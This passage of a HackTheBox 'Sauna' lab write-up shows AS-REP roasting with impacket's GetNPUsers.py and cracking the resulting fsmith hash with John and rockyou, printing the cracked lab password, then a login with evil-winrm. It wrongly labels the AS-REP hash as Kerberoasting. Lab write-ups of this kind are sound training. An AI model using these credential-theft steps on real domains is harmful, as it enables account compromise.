 We launch [impacket's](https://github.com/SecureAuthCorp/impacket/) script
`GetNPUsers.py` against our users list. We get the krb5tgs/Kerberoasting hash of the fsmith
user.

    :::text
    python GetNPUsers.py  -dc-ip 10.10.10.175  egotisticalbank/ -usersfile ~/pentest/htb_sauna/users
    Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation

    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    $krb5asrep$23$fsmith@EGOTISTICALBANK:7737b8e55d1ac7976a01e619a1268567$268f28ec59cfeda91a139f8f8c2c5cb9679d0dc04ba133f031b3021ebbd203888cd12633a0e604ad28420ff3fe41694d38f55b434bbe2af2b7ee0958a9a5705e4a880e2ecebb74a4d1aca73371cfcb73fb54a61520392d76079cc32bf3e128b87e3450d68361a84b4c686104e2fe13dc3cd7bd381a5ac87737ab8b95908bf0be409c7642fcfac3599aca04d19fd0f25f7bb4908a6fb496975f68ee3a4761ca406a43502b86410774127f25a5dc14c76dde7ac458df451dbcb093c4c6d069406e98c4839ecd6a0952a0850c289fab93e29682ec64cb690add83d0c6986c8f078bf25e53662f7d7fcc2c1e4740554036218a71320da2067a1298
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
    [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)

We crack that hash using John and the Rockyou dictionary getting fsmith
password.

    :::text
    john hash -w=tools/password_lists/rockyou.txt
    Warning: detected hash type "krb5asrep", but the string is also recognized as "krb5asrep-aes-opencl"
    Use the "--format=krb5asrep-aes-opencl" option to force loading these as that type instead
    Using default input encoding: UTF-8
    Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
    Will run 4 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    Thestrokes23     ($krb5asrep$23$fsmith@EGOTISTICALBANK)
    1g 0:00:00:19 DONE (2020-02-17 15:33) 0.05235g/s 551780p/s 551780c/s 551780C/s Thines..Thehulk2008
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed

We connect on the box with our fsmith account using
[evil-winrm](https://github.com/Hackplayers/evil-winrm). And get the user flag
on his desktop.
